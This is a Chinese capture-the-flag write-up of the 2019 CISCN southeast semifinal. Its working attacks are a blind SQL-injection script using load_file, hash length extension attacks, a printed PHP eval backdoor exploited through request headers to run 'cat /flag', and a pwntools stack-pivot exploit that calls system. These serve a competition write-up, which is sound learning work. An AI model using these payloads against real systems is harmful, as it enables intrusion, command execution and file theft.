


# 2019 CISCN 华东南赛区半决赛
靠着web的解题和pwn的fix（大师傅nb）冲进了决赛。仔细想了想其实也没做出来几道题，唉，决赛加油了。

## web1

有两个输入框，username 存在 sql 注入，过滤了大量关键词(空格/sub/strcmp/mid/left/righ/regexp...)，尝试使用`username=admin'/**/or/**/1=1#`，可以成功登录，被告知要读取文件`\flag`

遂想到用 load_file 读取本地文件，但是由于过滤了大量的字符串处理函数，所以尝试了很久，最后使用`LIKE`进行盲注爆破出 flag

```python
import requests as req
import string

t = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!{}"
#这里注意，字符集的“_”要转移一下，在like里下划线代表任意字符（一开始爆破出来一堆带下划线的

old = ""

for j in range(26):
    for i in t:
        data = {"username":"flag'/**/or/**/load_file('/flag')/**/LIKE/**/'"+old+i+"%'#","password":"1","submit":"login"}
        r = req.post("http://172.29.11.109/index.php",data)
        print(old+i)
        if("username or password error" not in r.text):
            print(i,end="")
            old = old + i

```
得到 flag`ciscn{ykF5HvTJ3cKTneQZ39}`

## web3

发现 robots.txt，有好多目录，只有一个目录`ndsufbewhjubvse`有用，在里面发现了另一个登录页面，瞎登录半天无果，又扫了一次目录，又发现了新东西`License.txt`,里面是源码，审计代码之后发现是哈希长度扩展攻击

```php
$flag = "flag{xxxxxx_just_a_sample_xxxxxxx}";
$bisskey = "xxxxxxxxx_just_a_sample_xxxxxxx"; // To remember Easily, 10 chars allowed.

$username = $_POST["username"];
$password = $_POST["password"];
header("hash_key:" . $hash_key);


if (!empty($_COOKIE["MyIdentity"])) {
    if (urldecode($username) === "admin123" && urldecode($password) != "admin123") {
        if ($_COOKIE["MyIdentity"] === md5($bisskey . urldecode($username .$password))) {
            echo "Great! You win!\n";
            echo ("<!-- Y0ur f!4g 1s here ". $flag . "-->");
        }
        else {
            die ("I don't konw what you say!");
        }
    }
    else {
        die ("I don't konw what you say!");
    }
}

setcookie("hash_key", md5($bisskey . urldecode("admin123" . "admin123")), time() + (60 * 60 * 24 * 7));

```

已知密钥长度是 10

`md5($bisskey + "admin123" + "admin123") == "e7187cb49ce6d5958d279284af968254"`

直接上 hashpump 构造 payload



## web6

首先进去是个登录界面，但是 f12 看到这个 form 提交的是假的，而且页面上也写着 is a joke，所以猜测不是本页面相关的东西。

于是试试扫描目录，发现有.git 目录，然后使用 GitHack 工具将.git 的源码文件恢复，发现有 getflag.php 和 index.html。其中 getflag.php 是一个验证参数 `$_POST["user"]` 和 `cookie(verify)` 的过程。其中它默认给出了一个加 guest 的 key 的 hash，然后猜测应该是哈希长度扩展攻击。使用工具 `hashpump` 构造填充的。



构造一个加 root 的，给 user，同时长度扩展攻击生成的 md5 放给 verify，即可通过检查 `encrypt($user)===$_COOKIE['verify']` 和 `is_numeric(strpos($user,'root'))` ，然后即可拿到 flag。

## web12

1. 首先访问，经过各类 sql 注入，xss 登等攻击均无效，于是开始扫目录。扫出来有 phpmyadmin。phpmyadmin 的 index.php 有备份文件 `index.php.bak`。经过下载，发现最后一行有一个提示的后门 `mDjNaF.php`，然后访问，发现真的是一个后门。


```php
<?php
if(';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['code'])) {
    eval($_GET['code']);
} else {
    show_source(__FILE__);
}
```

2. 经过后门发现，这个正则的规则是将 code 参数的大小写、数字和一次的括号匹配替换成空字符串，如果只剩 `;` 则成功后门。也就是说，利用代码不能有参数调用的函数，于是就使用一系列纯英文且能从可控位置读入的地方进行利用后门。

3. 首先就是 getallheaders()可以获取所有 headers，end()可以返回数组的最后一项的键值，system 可以直接执行 shell 指令，组合起来利用就是 `?code=system(end(getallheaders()));` 。然后构造一个任意头部，比如 `frbukg: cat /flag` 即可。

## babypwn

没有 malloc 所以不可能是堆，NX 有，PIE 和 cannary 没。粗略一看漏洞点在 read 有点 0x28 空间却读入 0x30 字节。两轮 read 分别用于泄漏栈地址和攻击。泄露部分能通过 savedBP 即 main 函数的 bp 来泄漏栈地址。攻击部分，有一个假后门可以显示 flag 字样……没啥用。溢出长度正好只够到保存的 bp 和 ip，所以普通的 rop 比较难搞，通过 leave retn -> leave retn 将栈(esp)挪到栈上输入字符串的部分，然后在这里构建返回到 system 和 system 的参数。

```python
from pwn import *
p = process("./pwn")
p.send("a"*0x28)
time.sleep(1)
s = p.recv()#泄漏栈
t = s[85:89]
k = 0
for i in t[::-1]:
    k = 256*k+ord(i)
print hex(k)
p1 = p32(0x08048559)+p32(k-0x38+16+8) #system地址和参数指针
p.send("aaabbbcccd\x00"+"\x00"*(5)+p1+"cat ./flag"+"\x00"*6+p32(k-0x2C)+p32(0x80485FD)) #padding system+system的参数+p1位置+leave retn
# print p.recv()
p.interactive()
```
